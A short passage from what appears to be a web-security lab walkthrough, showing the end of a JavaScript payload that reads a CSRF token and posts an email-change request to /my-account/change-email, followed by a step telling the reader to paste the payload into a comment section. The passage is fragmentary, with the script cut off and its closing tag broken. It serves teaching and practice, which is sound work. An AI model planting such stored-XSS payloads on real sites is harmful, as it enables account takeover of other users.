 ```
    changeReq.open('post', '/my-account/change-email', true);

    changeReq.send('csrf='+token+'&email=test@test.com')

};

</script
```

**Step3:**

Paste this payload in comment section

<img src="images/image135.png" alt="third" width="500">
